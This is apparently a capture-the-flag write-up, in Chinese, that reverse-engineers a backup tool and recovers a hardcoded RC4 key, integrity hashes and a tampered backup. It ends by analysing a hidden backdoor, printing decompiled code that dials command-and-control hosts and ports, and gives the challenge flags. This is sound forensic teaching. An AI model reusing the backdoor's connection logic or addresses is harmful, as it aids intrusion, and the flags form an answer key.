2024 数信杯 - 数据安全综合场景赛 - 数据备份 题目分析

<!-- truncate -->

首先，服务器的环境没有任何作用，核心都在服务器上获取的两个样本

```plaintext
myback
202410311935.cbak
```

附件可以在 [Release 附件下载 - Data-Backup.zip · CTF-Archives/2024-shuxincup](https://github.com/CTF-Archives/2024-shuxincup/releases/download/v0.1/Data-Backup.zip) 获取得到

一个是备份工具，一个是执行备份之后得到的被破坏的备份文件

首先，先尝试执行一下备份工具



```shell
┌──(randark ㉿ kali)-[~/tmp/2024sxb-1]
└─$ ./myback
Menu:
1. Backup File
2. Restore Files
3. Print Info
4. Exit
```

那么，根据比赛时的题目先完成一下题目

## 1. 版本信息

> 请选手分析备份恢复系统中的备份工具 myback 程序，获取备份工具的版本信息。
>
> 版本信息为一串类似 `***.***.***` 的字符串，注意星号不具有占位意义，不代表具体的字符串长度。
>
> 【答案标准】例：若获取的版本信息为：123.456.789，则提交的 案为：123.456.789。

第一种做法，可以直接执行程序来获得

```shell
┌──(randark ㉿ kali)-[~/tmp/2024sxb-1]
└─$ ./myback
Menu:
1. Backup File
2. Restore Files
3. Print Info
4. Exit
Enter your choice: 3
Bcakup_programe version:3.85.4h6
This program is used for backing up and restoring files.
Choose 1 to back up files in the specified directory to the current program directory and output a cbak file.
Choose 2 to restore the specified backup file to the current program directory.
```

第二种方法，用 IDA 直接逆向分析

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    int choice; // [rsp+14h] [rbp-Ch] BYREF
    unsigned __int64 v5; // [rsp+18h] [rbp-8h]

    v5 = __readfsqword(0x28u);
    puts("Menu:");
    puts("1. Backup File");
    puts("2. Restore Files");
    puts("3. Print Info");
    puts("4. Exit");
    printf("Enter your choice:");
    __isoc99_scanf("%d", &choice);
    if (choice == 4)
    {
        puts("Exiting program.");
        exit(0);
    }
    if (choice> 4 )
        goto LABEL_11;
    switch (choice)
    {
        case 3:
            print_info();
            break;
        case 1:
            puts("Please enter the path of the directory to be backed up:");
            __isoc99_scanf("%s", backup_file_dir);
            backup_file(backup_file_dir);
            break;
        case 2:
            puts("Please enter the backup file name to be restored:");
            __isoc99_scanf("%s", restore_file);
            restore_files(restore_file);
            break;
        default:
LABEL_11:
        puts("Invalid choice. Please try again.");
        return 0;
    }
    return 0;
}
```

一个简单的菜单逻辑，跟进 `print_info()` 函数

```c
void __cdecl print_info()
{
    printf("Bcakup_programe version:%s\n", "3.85.4h6");
    puts("This program is used for backing up and restoring files.");
    puts("Choose 1 to back up files in the specified directory to the current program directory and output a cbak file.");
    puts("Choose 2 to restore the specified backup file to the current program directory.");
}
```

同样可以得到答案

```flag
3.85.4h6
```

## 2. 解密的密钥

> 请选手分析备份恢复系统中的备份恢复工具 myback 中的备份 / 恢复逻辑，找到用于解密的密钥。
>
> 【答案标准】例：若找到用于解密的密钥为字符串 123456。则提交最终 案为：123456。

题目要求的是解密算法的密钥，那么解密常见于 restore 功能，即基于菜单逻辑跟进 `restore_files()` 函数

```c
void __cdecl restore_files(const char *backup_file_path)
{
    __int64 v1; // rdx
    restore_files::FileInfo *v2; // rax
    __int64 v3; // rbx
    __int64 v4; // rbx
    int offset; // [rsp+10h] [rbp-E0h]
    int offseta; // [rsp+10h] [rbp-E0h]
    int file_info_count; // [rsp+14h] [rbp-DCh]
    int min_data_offset; // [rsp+18h] [rbp-D8h]
    int i; // [rsp+1Ch] [rbp-D4h]
    restore_files::FileInfo *file_info_list; // [rsp+20h] [rbp-D0h]
    FILE *backup_file; // [rsp+28h] [rbp-C8h]
    signed __int64 backup_file_size; // [rsp+30h] [rbp-C0h]
    unsigned __int8 *backup_file_buffer; // [rsp+38h] [rbp-B8h]
    restore_files::FileInfo *info_0; // [rsp+48h] [rbp-A8h]
    unsigned __int8 *encrypted_data; // [rsp+50h] [rbp-A0h]
    size_t data_length; // [rsp+58h] [rbp-98h]
    unsigned __int8 *decrypted_data; // [rsp+60h] [rbp-90h]
    FILE *output_file; // [rsp+68h] [rbp-88h]
    restore_files::FileInfo info; // [rsp+70h] [rbp-80h] BYREF
    char version[9]; // [rsp+97h] [rbp-59h] BYREF
    unsigned __int8 stored_md5_sum[16]; // [rsp+A0h] [rbp-50h] BYREF
    unsigned __int8 calculated_md5_sum[16]; // [rsp+B0h] [rbp-40h] BYREF
    char log_file_name[21]; // [rsp+C0h] [rbp-30h] BYREF
    unsigned __int64 v24; // [rsp+D8h] [rbp-18h]

    v24 = __readfsqword(0x28u);
    backup_file = fopen(backup_file_path, "rb");
    if (backup_file)
    {
        fseek(backup_file, 0LL, 2);
        backup_file_size = ftell(backup_file);
        fseek(backup_file, 0LL, 0);
        backup_file_buffer = (unsigned __int8 *)malloc(backup_file_size);
        if (backup_file_buffer)
        {
            if (fread(backup_file_buffer, 1uLL, backup_file_size, backup_file) == backup_file_size )
            {
                fclose(backup_file);
                if (!memcmp(backup_file_buffer, "CBAK", 4uLL) )
                {
                    v1 = *(_QWORD *)(backup_file_buffer + 12);
                    *(_QWORD *)stored_md5_sum = *(_QWORD *)(backup_file_buffer + 4);
                    *(_QWORD *)&stored_md5_sum[8] = v1;
                    calculate_md5(backup_file_buffer + 20, backup_file_size - 20, calculated_md5_sum);
                    if (!memcmp(stored_md5_sum, calculated_md5_sum, 0x10uLL) )
                    {
                        memset(version, 0, sizeof(version));
                        *(_QWORD *)version = *(_QWORD *)(backup_file_buffer + 20);
                        memset(log_file_name, 0, sizeof(log_file_name));
                        memcpy(log_file_name, backup_file_buffer + 28, 0x14uLL);
                        offset = 48;
                        file_info_list = 0LL;
                        file_info_count = 0;
                        min_data_offset = backup_file_size;
                        while (offset < min_data_offset && backup_file_size>= offset + 32 )
                        {
                            memset(&info, 0, sizeof(info));
                            memcpy(&info, &backup_file_buffer[offset], 0x18uLL);
                            info.filename[24] = 0;
                            offseta = offset + 24;
                            info.file_size = *(_DWORD *)&backup_file_buffer[offseta];
                            offseta += 4;
                            info.file_offset = *(_DWORD *)&backup_file_buffer[offseta];
                            offset = offseta + 4;
                            if (min_data_offset> info.file_offset )
                                min_data_offset = info.file_offset;
                            file_info_list = (restore_files::FileInfo *)realloc(file_info_list, 36LL * (file_info_count + 1));
                            if (!file_info_list)
                            {
                                puts(&byte_425A);
                                free(backup_file_buffer);
                                return;
                            }
                            v2 = &file_info_list[file_info_count];
                            v3 = *(_QWORD *)&info.filename[8];
                            *(_QWORD *)v2->filename = *(_QWORD *)info.filename;
                            *(_QWORD *)&v2->filename[8] = v3;
                            v4 = *(_QWORD *)&info.filename[24];
                            *(_QWORD *)&v2->filename[16] = *(_QWORD *)&info.filename[16];
                            *(_QWORD *)&v2->filename[24] = v4;
                            v2->file_offset = info.file_offset;
                            ++file_info_count;
                        }
                        for (i = 0; i < file_info_count; ++i)
                        {
                            info_0 = &file_info_list[i];
                            if (info_0->filename[0] != 46 )
                            {
                                if (backup_file_size>= info_0->file_offset + info_0->file_size )
                                {
                                    encrypted_data = &backup_file_buffer[info_0->file_offset];
                                    data_length = info_0->file_size;
                                    decrypted_data = (unsigned __int8 *)malloc(data_length);
                                    if (decrypted_data)
                                    {
                                        memcpy(decrypted_data, encrypted_data, data_length);
                                        // highlight-next-line
                                        rc4_encrypt("30048-0bea264-c01c6ea3-e5047d488", 32, decrypted_data, data_length);
                                        output_file = fopen(info_0->filename, "wb");
                                        if (output_file)
                                        {
                                            fwrite(decrypted_data, 1uLL, data_length, output_file);
                                            fclose(output_file);
                                        }
                                        else
                                        {
                                            printf(&byte_430C, info_0);
                                        }
                                        free(decrypted_data);
                                    }
                                    else
                                    {
                                        printf(&byte_42E8, info_0);
                                    }
                                }
                                else
                                {
                                    printf(&byte_42C0, info_0);
                                }
                            }
                        }
                        free(file_info_list);
                        free(backup_file_buffer);
                    }
                    else
                    {
                        puts(aMd5);
                        free(backup_file_buffer);
                    }
                }
                else
                {
                    puts(&byte_4289);
                    free(backup_file_buffer);
                }
            }
            else
            {
                puts(&byte_426D);
                free(backup_file_buffer);
                fclose(backup_file);
            }
        }
        else
        {
            puts(&byte_425A);
            fclose(backup_file);
        }
    }
    else
    {
        printf(&byte_423C, backup_file_path);
    }
}
```

逻辑比较长，但是在其中可以看到这一部分

```c
rc4_encrypt("30048-0bea264-c01c6ea3-e5047d488", 32, decrypted_data, data_length);
```

得益于二进制文件的符号表没有被去除，可以直接得知这部分就是 `RC4` 流加密算法

那么根据函数的定义

```c
void __cdecl rc4_encrypt(unsigned __int8 *key, int key_len, unsigned __int8 *data, int data_len)
```

就可以确定 `RC4` 算法的密钥

```flag
30048-0bea264-c01c6ea3-e5047d488
```

## 3. 完整性校验值

> 请选手分析备份恢复系统中的备份恢复工具 myback 在生成备份文件的逻辑，发现备份工具使用一种常见的方式来校验备份文件的完整性，并且将生成的完整性校验字符串保存在了备份文件中，请选手分析备份恢复工具，找到备份文件 202410311935.cbak 完整性校验值。
>
> 【答案标准】例：完整性的校验值使用字符串的形式提交，如若完整性校验值的 16 进制为 `3A 32 33 34 35 36 37 38 39 30`，则应提交的 案为 `3A323334353637383930`，空格仅为显示效果，非答案中字符。 案中所有的英文字符均为大写字符。

常见的校验值算法，就是 MD5

在反编译的函数列表中，定位到 `calculate_md5()` 函数

```c
void __cdecl calculate_md5(const unsigned __int8 *data, size_t length, unsigned __int8 *md5_sum)
{
    MD5_CTX ctx; // [rsp+20h] [rbp-70h] BYREF
    unsigned __int64 v5; // [rsp+88h] [rbp-8h]

    v5 = __readfsqword(0x28u);
    MD5_Init(&ctx);
    MD5_Update(&ctx, data, length);
    MD5_Final(md5_sum, &ctx);
}
```

那么，查看 `calculate_md5()` 函数的交叉引用



可以看到 `backup_file()` 函数和 `restore_files()` 函数都引用了 `calculate_md5()` 函数

以 `backup_file()` 函数为例，进行分析

```c
void __cdecl backup_file(const char *file_dir)
{
    __int64 v1; // rdx
    int file; // eax
    size_t v3; // rax
    char *v4; // rcx
    __int64 v5; // rdx
    __int64 v6; // rdx
    __int64 v7; // rdx
    int index; // [rsp+18h] [rbp-DE8h]
    int indexa; // [rsp+18h] [rbp-DE8h]
    int file_block_buf_offset; // [rsp+1Ch] [rbp-DE4h]
    int file_info_buf_offset; // [rsp+20h] [rbp-DE0h]
    int hidden_file_count; // [rsp+24h] [rbp-DDCh]
    int count; // [rsp+28h] [rbp-DD8h]
    int final_file_buf_offset; // [rsp+2Ch] [rbp-DD4h]
    __int64 current_file_size; // [rsp+38h] [rbp-DC8h]
    size_t i; // [rsp+40h] [rbp-DC0h]
    size_t i_0; // [rsp+48h] [rbp-DB8h]
    char *file_block_buf; // [rsp+50h] [rbp-DB0h]
    char *final_file_buffer; // [rsp+58h] [rbp-DA8h]
    char *file_buffer; // [rsp+60h] [rbp-DA0h]
    char *file_name_start; // [rsp+70h] [rbp-D90h]
    size_t file_buffer_length; // [rsp+78h] [rbp-D88h]
    char log_file_name[20]; // [rsp+80h] [rbp-D80h] BYREF
    char current_file_name[24]; // [rsp+A0h] [rbp-D60h] BYREF
    char current_file_info[32]; // [rsp+C0h] [rbp-D40h] BYREF
    char log_message[256]; // [rsp+E0h] [rbp-D20h] BYREF
    char file_info_buf[1024]; // [rsp+1E0h] [rbp-C20h] BYREF
    char file_name_buf[2048]; // [rsp+5E0h] [rbp-820h] BYREF
    unsigned __int64 v29; // [rsp+DE8h] [rbp-18h]

    v29 = __readfsqword(0x28u);
    count = get_file_names_unix(file_dir, file_name_buf, 2048);
    file_block_buf = (char *)malloc(0xA00000uLL);
    final_file_buffer = (char *)malloc(0xA00000uLL);
    hidden_file_count = 0;
    index = 0;
    for (i = 0LL; i < count; ++i)
    {
        if (file_name_buf[index + 1 + strlen(file_dir)] == 46 )
        ++hidden_file_count;
        index += strlen(&file_name_buf[index]) + 1;
    }
    memcpy(final_file_buffer, "CBAK", 4uLL);
    memcpy(final_file_buffer + 20, "3.85.4h6", 8uLL);
    memset(log_file_name, 0, sizeof(log_file_name));
    memcpy(log_file_name, "backup.log", 0xAuLL);
    v1 = *(_QWORD *)&log_file_name[8];
    *(_QWORD *)(final_file_buffer + 28) = *(_QWORD *)log_file_name;
    *(_QWORD *)(final_file_buffer + 36) = v1;
    *((_DWORD *)final_file_buffer + 11) = *(_DWORD *)&log_file_name[16];
    indexa = 0;
    file_info_buf_offset = 0;
    file_block_buf_offset = 0;
    file_buffer = (char *)malloc(0xA00000uLL);
    for (i_0 = 0LL; i_0 < count; ++i_0)
    {
        if (file_name_buf[indexa + 1 + strlen(file_dir)] != 46 )
        {
            memset(current_file_name, 0, sizeof(current_file_name));
            file_name_start = &file_name_buf[indexa + 1 + strlen(file_dir)];
            strncpy(current_file_name, file_name_start, 0x17uLL);
            file = read_file(&file_name_buf[indexa], file_buffer);
            file_buffer_length = file;
            if (file)
            {
                rc4_encrypt("30048-0bea264-c01c6ea3-e5047d488", 32, (unsigned __int8 *)file_buffer, file);
                LODWORD(current_file_size) = file_buffer_length;
                HIDWORD(current_file_size) = 32 * (count - hidden_file_count) + 48 + file_block_buf_offset;
                memcpy(&file_block_buf[file_block_buf_offset], file_buffer, file_buffer_length);
                file_block_buf_offset += file_buffer_length;
                memset(current_file_info, 0, sizeof(current_file_info));
                v3 = strlen(current_file_name);
                memcpy(current_file_info, current_file_name, v3);
                *(_QWORD *)&current_file_info[24] = current_file_size;
                v4 = &file_info_buf[file_info_buf_offset];
                v5 = *(_QWORD *)&current_file_info[8];
                *(_QWORD *)v4 = *(_QWORD *)current_file_info;
                *((_QWORD *)v4 + 1) = v5;
                v6 = *(_QWORD *)&current_file_info[24];
                *((_QWORD *)v4 + 2) = *(_QWORD *)&current_file_info[16];
                *((_QWORD *)v4 + 3) = v6;
                file_info_buf_offset += 32;
                printf("Backup file:%s\n", &file_name_buf[indexa]);
                sprintf(log_message, "Backup file: %s", &file_name_buf[indexa]);
                write_log(log_message);
            }
            else
            {
                printf(aCanNotReadFile, &file_name_buf[indexa]);
            }
        }
        indexa += strlen(&file_name_buf[indexa]) + 1;
    }
    free(file_buffer);
    memcpy(final_file_buffer + 48, file_info_buf, file_info_buf_offset);
    memcpy(&final_file_buffer[file_info_buf_offset + 48], file_block_buf, file_block_buf_offset);
    final_file_buf_offset = file_block_buf_offset + file_info_buf_offset + 48;
    //  highlight-start
    calculate_md5(
        (const unsigned __int8 *)final_file_buffer + 20,
        final_file_buf_offset - 20,
        (unsigned __int8 *)current_file_info);
    //  highlight-end
    v7 = *(_QWORD *)&current_file_info[8];
    *(_QWORD *)(final_file_buffer + 4) = *(_QWORD *)current_file_info;
    *(_QWORD *)(final_file_buffer + 12) = v7;
    getCurrentTime(current_file_name, 0xFuLL);
    strcpy(&current_file_name[strlen(current_file_name)], ".cbak");
    sprintf(log_message, current_file_name);
    save_file(log_message, final_file_buffer, final_file_buf_offset);
    free(final_file_buffer);
    free(file_block_buf);
}
```

根据 `calculate_md5()` 函数的定义，第一个参数 `data` 数据，第二个参数 `lenth` 数据长度，第三个参数 `md5_sum` 为 MD5 计算结果

那么可以知道

1. 变量 `current_file_info` 为原始 `calculate_md5()` 函数的计算结果
2. 执行 `v7 = *(_QWORD *)&current_file_info[8];` 将 `current_file_info()` 计算的结果取前八位存入 `v7`
3. 执行 `*(_QWORD *)(final_file_buffer + 4) = *(_QWORD *)current_file_info;` 将 `current_file_info()` 计算的结果从 `final_file_buffer` 的 `offset = 4` 位置存入

那么说明 `cbak` 文件的 `offset = 4` 位置开始，取 `16` 字节得到的就是文件的完整性校验值



即可得到备份文件的完整性校验值

```flag
EACDD8510B0F54EA412FA900A2F0645F
```

## 4. 恢复被破坏的源码备份文件

> 攻击者修改了备份文件，导致某些文件无法被成功恢复出来（202410311935.cbak 已被攻击者修改）。请选手分析备份恢复系统中的备份恢复程序 myback，结合现有的备份文件 202410311935.cbak 修复备份文件，使之能够成功恢复出所有的文件，其中有个文件包含有商城门户网站部分的源码，将这个文件的 Md5 作为答案提交。
>
> 【答案标准】例：若某个 a.zip 文件中包含有商城源码文件，则计算 a.zip 文件的 32 位小写 Md5 字符串。将此 md5 字符串作为答案提交。

首先，尝试直接基于原文件执行 `restore` 功能

```shell
┌──(randark ㉿ kali)-[~/tmp/2024sxb-1]
└─$ ./myback
Menu:
1. Backup File
2. Restore Files
3. Print Info
4. Exit
Enter your choice: 2
Please enter the backup file name to be restored:
202410311935.cbak
MD5 校验和不匹配
```

那么说明因为备份文件被破坏，导致文件中所记载的完整性校验值与目前文件的计算结果不一致

尝试使用 IDA 进行动调

在 IDA 中，对 `restore_files()` 函数的 `if ( !memcmp(stored_md5_sum, calculated_md5_sum, 0x10uLL) )` 语句下断点

```shell
┌──(randark ㉿ kali)-[~/tmp/2024sxb-1]
└─$ ida_linux_server64
IDA Linux 64-bit remote debug server(ST) v8.3.28. Hex-Rays (c) 2004-2023
2024-11-09 22:02:17 Listening on 0.0.0.0:23946...
2024-11-09 22:02:49 [1] Accepting connection from 192.168.200.1...
Menu:
1. Backup File
2. Restore Files
3. Print Info
4. Exit
Enter your choice: 2
Please enter the backup file name to be restored:
202410311935.cbak
```

可以看到



```plaintext
stored_md5_sum = EACDD8510B0F54EA412FA900A2F0645F
calculated_md5_sum = 85077064C3EB25BDE2EAD27EE50A959C
```

直接对 `cbak` 文件的校验值进行修改，然后尝试执行

```shell
┌──(randark ㉿ kali)-[~/tmp/2024sxb-1]
└─$ hexdump 202410311935.patch.cbak -C | head -n 3
00000000  43 42 41 4b 85 07 70 64  c3 eb 25 bd e2 ea d2 7e  |CBAK..pd..%....~|
00000010  e5 0a 95 9c 33 2e 38 35  2e 34 68 36 62 61 63 6b  |....3.85.4h6back|
00000020  75 70 2e 6c 6f 67 00 00  00 00 00 00 00 00 00 00  |up.log..........|

┌──(randark ㉿ kali)-[~/tmp/2024sxb-1]
└─$ ./myback
Menu:
1. Backup File
2. Restore Files
3. Print Info
4. Exit
Enter your choice: 2
Please enter the backup file name to be restored:
202410311935.patch.cbak
```

这一次没有报错信息，并得到了以下文件

```plaintext
-rw-rw-r-- 1 randark randark 2.9K Nov  9 22:20 jz_orders.sql
-rw-rw-r-- 1 randark randark  36K Nov  9 22:20 jzcms.sql
-rw-rw-r-- 1 randark randark 1.6K Nov  9 22:20 jzcms2.sql
-rw-rw-r-- 1 randark randark 2.0K Nov  9 22:20 jzcms3.sql
-rw-rw-r-- 1 randark randark 1.9K Nov  9 22:20 jzcms4.sql
-rw-rw-r-- 1 randark randark 3.0K Nov  9 22:20 jzsms1.sql
```

但是很明显，这里面并没有所想要的带有源码的压缩文件

在 `restore_files()` 函数的 `if ( info_0->filename[0] != 46 )` 部分下断点，查看执行过程



继续 Step Into 查看















同时，在调试中，发现 `file_info_count` 变量的值为 `8` 与所得到的 8 个文件的信息相吻合



有两种办法：

1. 基于反编译结果，解析出备份文件的结构体信息，基于结构体信息自动化还原出所有文件
2. 直接基于 offset 信息，将文件手动一个一个还原出来
3. 在动调中直接获取各个文件解密后的结果

第一个方案很明显比赛时时间来不及，那就只看二、三方案

### 基于 offset 手动处理

首先，很明显两个文件的 filename 为 `...` 值，很明显无法储存为正常的文件，于是提取两个文件的信息

```plaintext
file_size = 0x2795B2(2594226) file_offset = 0x1E73(7795)
file_size = 0x29BD01(2735361) file_offset = 0x284B4D(2640717)
```

然后直接 Cyberchef 处理

查看第一个文件



很明显的 zip 压缩包文件，这里其实可以直接得到答案



第二个文件



很明显是 ELF 二进制文件

### 基于动调拿到文件数据

在 `restore_files()` 函数的 `output_file = fopen(info_0->filename, "wb");` 部分下断点，查看执行过程

由于存在



```c
if (info_0->filename[0] != 46 )
```

所以在没有恢复文件名信息之前，无法直接通过动调拿到文件数据

有一个办法，就是将文件名 check 部分的逻辑进行 patch

定位到



```c
if (info_0->filename[0] != 46 )
```

这部分查看汇编



```asm
.text:000000000000254B loc_254B:                               ; CODE XREF: restore_files+689↓j
.text:000000000000254B                 mov     eax, [rbp+i]
.text:0000000000002551                 movsxd  rdx, eax
.text:0000000000002554                 mov     rax, rdx
.text:0000000000002557                 shl     rax, 3
.text:000000000000255B                 add     rax, rdx
.text:000000000000255E                 shl     rax, 2
.text:0000000000002562                 mov     rdx, rax
.text:0000000000002565                 mov     rax, [rbp+file_info_list]
.text:000000000000256C                 add     rax, rdx
.text:000000000000256F                 mov     [rbp+info_0], rax
.text:0000000000002576                 mov     rax, [rbp+info_0]
.text:000000000000257D                 movzx   eax, byte ptr [rax]
.text:0000000000002580                 cmp     al, 2Eh ; '.'
.text:0000000000002582                 jz      loc_2724
.text:0000000000002588                 mov     rax, [rbp+info_0]
.text:000000000000258F                 mov     edx, [rax+20h]
.text:0000000000002592                 mov     rax, [rbp+info_0]
.text:0000000000002599                 mov     eax, [rax+1Ch]
.text:000000000000259C                 add     eax, edx
.text:000000000000259E                 cdqe
.text:00000000000025A0                 cmp     [rbp+backup_file_size], rax
.text:00000000000025A7                 jge     short loc_25CC
.text:00000000000025A9                 mov     rax, [rbp+info_0]
.text:00000000000025B0                 mov     rsi, rax
.text:00000000000025B3                 lea     rax, byte_42C0
.text:00000000000025BA                 mov     rdi, rax        ; format
.text:00000000000025BD                 mov     eax, 0
.text:00000000000025C2                 call    _printf
.text:00000000000025C7                 jmp     loc_2725
```

在 `cmp     al, 2Eh ; '.'` 处执行 `NOP` 进行无效化



查看反汇编，可以看到逻辑已经被修改



执行完 patch 操作之后，菜单 `Edit` -> `Patch program` -> `Apply patches to` 将 patch 后的二进制文件导出为 `myback.patch`

对 patch 后的 `myback.patch` 程序继续动调，断点下在文件处理部分，即可看到



查看 `decrypted_data` 指针所指的内存区域



成功基于动调获取到文件内容

```flag
d64fb691c47bbadbfa4495732cb6d3ae
```

## 5. 分析后门文件的连接地址

> 备份文件经过修复后将所有文件成功地恢复了，但是发现有一个未知的文件，经过简单分析后，确认是攻击者留下的后门程序，请选手分析备份恢复系统中的后门程序，确定后门程序连接服务的地址 / 域名和端口。
>
> 【答案标准】例：若分析得到的后门服务的的 IP 的为 127.0.0.1 或者分析得到服务的的域名为 mst.com，对应的连接端口为 1234，则提交的 案为：IP 127.0.0.1:1234 或者域名 mst.com:1234。

这里的未知文件，就是上一题中找到的 elf 二进制文件



对其进行逆向分析，定位到 `main_main()` 函数



基本上是一个网络通信的二进制程序，按照顺序重复尝试了多个服务器，将基本逻辑块提取一个出来

```c
v35.len = 3LL;
v31.len = (int)"221.67.213.4";
v31.cap = 12LL;
v21.str = (uint8 *)&sep;
v21.len = 1LL;
v35.str = (uint8 *)"tcp";
v24 = (io_Writer)runtime_concatstring4(0LL, v35, *(string *)&v31.len, v21, v2);
v24.tab = (runtime_itab *)runtime_convTstring((string)v24);
*(_QWORD *)&v17 = &RTYPE_string_0;
*((_QWORD *)&v17 + 1) = v24.tab;
v24.data = os_Stdout;
v24.tab = (runtime_itab *)&go_itab__ptr_os_File_comma_io_Writer;
```

按照块的逻辑，从上往下进行分析，可以发现在最后一个块增加了一步网络连接的操作

```c
v31.array = (interface_ *)18;
v31.len = (int)&sep;
v31.cap = 1LL;
v8 = "huben.cimer.com.cn";
v9 = runtime_concatstring3(0LL, *(string *)&v31.array, *(string *)&v31.len, v7);
v31.array = (interface_ *)v9.str;
v31.len = v9.len;
v27.str = (uint8 *)"tcp";
v27.len = 3LL;
v38 = net_Dial(v27, *(string *)&v31.array);
if (!v38._r1.tab)
    break;
```

直接运行程序，可以得到以下输出

```shell
┌──(randark ㉿ kali)-[~/tmp/2024sxb-1]
└─$ ./download.elf
tcp221.67.213.4:23445
tcp157.24.166.173:23445
tcpupload.derzse.com:23445
Error connecting: dial tcp: lookup huben.cimer.com.cn on 192.168.200.0:53: no such host
tcp221.67.213.4:23445
tcp157.24.166.173:23445
tcpupload.derzse.com:23445
Error connecting: dial tcp: lookup huben.cimer.com.cn on 192.168.200.0:53: no such host
```

结合报错信息，以及前几块的输出信息，即可确定最后 `net_Dial()` 发起的网络请求的具体连接地址

```flag
huben.cimer.com.cn:23445
```
